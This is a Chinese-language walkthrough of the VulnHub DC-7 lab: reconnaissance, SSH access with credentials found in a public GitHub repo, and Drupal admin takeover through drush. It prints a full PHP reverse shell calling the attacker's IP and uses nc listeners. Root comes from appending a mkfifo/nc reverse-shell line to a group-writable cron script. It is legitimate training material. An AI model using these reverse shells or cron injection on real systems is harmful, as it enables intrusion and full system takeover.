





# DC7-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-7,356/

**Description**

DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

While this isn't an overly technical challenge, it isn't exactly easy.

While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.

What you will need to do, is to think "outside" of the box.

Waaaaaay "outside" of the box. :-)

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-7 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

**知识点**
- php 弹 shell
- 通过定时任务提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```



排除法,去掉自己、宿主机、网关, `192.168.141.142` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.142
```


开放了 SSH 和 WEB 服务,web 是 Drupal 搭建的站,和 DC1 的做法一样,测了几个 CVE,并没有成功


然后试了爆破账号和目录也没有结果,google 一圈后发现,尼玛需要去推特上搜索最底下的用户字符串 "DC7USER"



再找到他的 github 仓库 https://github.com/Dc7User/staffdb


看上去像是要代码审计？其实不是,里面有 config.php 其中有 mysql 凭证


```
dc7user
MdR3xOgB7#dW
```

拿这个去连接它 mysql？扯淡,他没对外开数据库端口,那就用着连连其他的


后台登录不上,再换一个,之前扫出的 SSH 时下,果然成功



看看有没有可以利用的


数据库文件是 gpg 加密的,不管,看到有个邮件文件
```
From root@dc-7 Thu Aug 29 17:00:22 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 17:00:22 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3EPu-0000CV-5C
	for root@dc-7; Thu, 29 Aug 2019 17:00:22 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3EPu-0000CV-5C@dc-7>
Date: Thu, 29 Aug 2019 17:00:22 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
gpg: symmetric encryption of '/home/dc7user/backups/website.sql' failed: File exists

From root@dc-7 Thu Aug 29 17:15:11 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 17:15:11 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3EeF-0000Dx-G1
	for root@dc-7; Thu, 29 Aug 2019 17:15:11 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3EeF-0000Dx-G1@dc-7>
Date: Thu, 29 Aug 2019 17:15:11 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
gpg: symmetric encryption of '/home/dc7user/backups/website.sql' failed: File exists

From root@dc-7 Thu Aug 29 17:30:11 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 17:30:11 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3Esl-0000Ec-JQ
	for root@dc-7; Thu, 29 Aug 2019 17:30:11 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3Esl-0000Ec-JQ@dc-7>
Date: Thu, 29 Aug 2019 17:30:11 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
gpg: symmetric encryption of '/home/dc7user/backups/website.sql' failed: File exists

From root@dc-7 Thu Aug 29 17:45:11 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 17:45:11 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3F7H-0000G3-Nb
	for root@dc-7; Thu, 29 Aug 2019 17:45:11 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3F7H-0000G3-Nb@dc-7>
Date: Thu, 29 Aug 2019 17:45:11 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
gpg: symmetric encryption of '/home/dc7user/backups/website.sql' failed: File exists

From root@dc-7 Thu Aug 29 20:45:21 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 20:45:21 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3Hvd-0000ED-CP
	for root@dc-7; Thu, 29 Aug 2019 20:45:21 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3Hvd-0000ED-CP@dc-7>
Date: Thu, 29 Aug 2019 20:45:21 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
gpg: symmetric encryption of '/home/dc7user/backups/website.sql' failed: File exists

From root@dc-7 Thu Aug 29 22:45:17 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 22:45:17 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3Jng-0000Iw-Rq
	for root@dc-7; Thu, 29 Aug 2019 22:45:16 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3Jng-0000Iw-Rq@dc-7>
Date: Thu, 29 Aug 2019 22:45:16 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]

From root@dc-7 Thu Aug 29 23:00:12 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 23:00:12 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3K28-0000Ll-11
	for root@dc-7; Thu, 29 Aug 2019 23:00:12 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3K28-0000Ll-11@dc-7>
Date: Thu, 29 Aug 2019 23:00:12 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]

From root@dc-7 Fri Aug 30 00:15:18 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Fri, 30 Aug 2019 00:15:18 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3LCo-0000Eb-02
	for root@dc-7; Fri, 30 Aug 2019 00:15:18 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3LCo-0000Eb-02@dc-7>
Date: Fri, 30 Aug 2019 00:15:18 +1000

rm: cannot remove '/home/dc7user/backups/*': No such file or directory
Database dump saved to /home/dc7user/backups/website.sql               [success]

From root@dc-7 Fri Aug 30 03:15:17 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Fri, 30 Aug 2019 03:15:17 +1000
Received: from root by dc-7 with local (Exim 4.89)
	(envelope-from <root@dc-7>)
	id 1i3O0y-0000Ed-To
	for root@dc-7; Fri, 30 Aug 2019 03:15:17 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3O0y-0000Ed-To@dc-7>
Date: Fri, 30 Aug 2019 03:15:17 +1000

rm: cannot remove '/home/dc7user/backups/*': No such file or directory
Database dump saved to /home/dc7user/backups/website.sql               [success]
```

看起来像是个定时任务的 log 其中大部分都是重复内容,告诉你文件夹没有,文件已经存在,不过一直在使用 `/opt/scripts/backups.sh` 这个脚本,看看
```
cat /opt/scripts/backups.sh
```



很好,提到了个工具 drush,DC1 补充里我通过 drush 修改 admin 用户的密码,来直接改 admin 密码
```
cd /var/www/html
drush user-password admin --password="admin"
```

注意: 需要在 `/var/www/html` 目录下运行 drush 命令

---

# 中期-漏洞利用

登录后台,这里参考 https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell Drupal 后台提权的方法,进入 Manage-->Extend-->List-->Install new module


访问下载插件 https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz ,直接下载或手动上传都行,自选

上传成功后,点击 Enable newly added modules


到 FILTERS 选项，勾选 PHP Filter，点击下方的 Install


回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code


写入一个 php 反向 shell 即可

找到一个可以直接利用的 php 源码 http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


kali 监听
```
nc -lvp 4444
```

点击 preview,成功回弹


---

# 后期-提权

和 dc7user 这个用户一样, www 用户也啥吊权限没有,只好把希望放在之前的备份脚本上

```
cd /opt/scripts/
ls -l
```


可见文件属组为 www-data,组权限 rwx,我们可以对脚本进行修改,期望通过定时任务尝试提权

kali 监听
```
nc -lvp 5555
```

写入 payload
```
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 192.168.141.134 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
cat backups.sh
```

耐心等待几分钟,就反弹回来了


提权成功,感谢靶机作者 @DCUA7

---

# 补充

root 上去看了下定时任务,果然啊,竟然尼玛15分钟。。。。



---

另外 pgp 可以解密出来 密钥好像是 PickYourOwnPassword 根据 /var/mail/dc7user 中邮件信息可以看出来
